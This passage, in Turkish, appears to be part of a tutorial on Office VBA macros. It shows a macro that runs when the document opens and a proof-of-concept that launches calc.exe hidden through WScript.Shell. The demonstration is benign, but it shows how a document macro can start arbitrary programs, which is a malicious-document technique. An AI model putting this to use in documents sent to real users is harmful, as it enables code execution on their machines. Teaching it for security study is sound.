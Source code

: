      Sub test_macro()
     MsgBox("Hello world")
     End Sub

Kodu yukarıdaki göründüğü gibi değiştirip tekrar kaydettiğimizde dökümanı açar açmaz makromuzun çalıştığını görebiliriz :

![vba5.png](img/vba5.png)

Bunu öğrendiğimize göre aşağıdaki gibi bir kod ile Windows'ta bulunan aplikasyonları da çalıştırabiliyoruz :

    Sub PoC()
	Dim payload As String
	payload = "calc.exe"
	CreateObject("Wscript.Shell").Run payload,0
    End Sub
